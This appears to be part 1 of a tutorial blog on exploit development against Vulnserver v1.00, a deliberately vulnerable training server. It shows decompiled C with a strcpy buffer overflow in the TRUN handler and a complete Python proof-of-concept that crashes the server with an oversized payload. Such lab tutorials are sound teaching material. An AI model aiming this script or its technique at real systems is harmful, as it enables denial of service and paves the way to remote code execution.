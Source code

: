 ```yaml
---
title: Exploit Development - Vulnserver v1.00 Part 1
published: 2025-10-22
description: DoS exploit development against Vulnserver v1.00
tags: [binary exploitation, exploit, vulnerability research]
category: Exploit Development
draft: false
lang: en
---
```


# Vulnserver v1.00 DoS Exploit Dev

## YouTube
<iframe width="100%" height="468" src="https://www.youtube.com/embed/Dd5HpNzpu6w?si=ziFH6kOkVx-yjs3p" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

## Vulnerability
Vulnserver v1.00 has the following commands:

1.  HELP
2.  STATS [stat\_value]
3.  RTIME [rtime\_value]
4.  LTIME [ltime\_value]
5.  SRUN [srun\_value]
6.  TRUN [trun\_value]
7.  GMON [gmon\_value]
8.  GDOG [gdog\_value]
9.  KSTET [kstet\_value]
10. GTER [gter\_value]
11. HTER [hter\_value]
12. LTER [lter\_value]
13. KSTAN [lstan\_value]
14. EXIT

The code that controls **TRUN** is as follows:

```c
else if ( !strncmp(buf, "TRUN ", 5u) )
{
	Destination = (char *)malloc(3000u);
	memset(Destination, 0, 3000u);
	for ( i = 5; i < len; ++1 )
	{
		if ( buf[i] == 46 )
		{
			strncpy(Destination, buf, 3000u);
			Function3(Destination);
			break;
		}
	}
	memset(Destination, 0, 0xBB8u);
	v17 = send(s, "TRUN COMPELTE\n", 14, 0);
}

char *__cdecl Function3(char *Source)
{
	char Destination[2008];

	return strcpy(Destination, Source);
}
```

Here, if the **6th value** of the string following the **TRUN** command matches **46** (ASCII text (46): `.`), `Function3` is called from `essfunc.dll`. This function creates a buffer that can store a string of **2008 bytes** but then saves **3000 bytes** into it. This is a very dangerous vulnerability that can allow a **Buffer OverFlow (BOF)** attack.

## PoC
```python
from argparse import ArgumentParser
from socket import *

def createPayload():
    data = b"A" * 65535

    payload = b"TRUN \x2E"
    payload += data

    return payload

def exploit(ip: str, port: int):
    print("[~] Generating payload...")
    payload = createPayload()
    print("[+] Payload generated")

    s = socket(AF_INET, SOCK_STREAM)
    print(f"[~] Connecting to the target: [{ip}]:{port}")
    s.connect((ip, port))

    print("[~] Waiting for a connection message...")
    conn_msg = s.recv(65535)
    print(f"[+] A connection message received: {conn_msg.decode()}")

    print("[~] Sending the payload...")
    s.send(payload)
    s.close()
    print("[+] Connection closed")

    print("[+] DoS Exploit Completed")

def main():
    parser = ArgumentParser(
        prog="Vulnserver v1.00 Exploit",
        description="TRUN command BOF DoS Vulnerability"
    )
    parser.add_argument(
        "-t", "--target",
        type=str,
        help="Set target IPv4 address",
        required=True
    )
    parser.add_argument(
        "-p", "--port",
        type=int,
        help="Set target port number",
        required=True
    )
    
    args = parser.parse_args()

    target_ip       = str(args.target)
    target_port     = int(args.port)

    exploit(target_ip, target_port)

if __name__ == "__main__":
    main()
```

The Proof of Concept (PoC) above is code that **overwrites 65,535 bytes of memory** via a Buffer Overflow (BOF) attack.
The program terminates abnormally with a DEP Violation error.
A DEP Violation error means that an error is returned due to **an attempted return to a non-executable memory location**.
This indicates that **it's possible to overwrite the return address in the program to perform a Control Flow Hijack,** which could ultimately lead to the execution of a remote attacker's shellcode.
In Part 2, we will develop an RCE Exploit involving a NOP Slide and shellcode generation.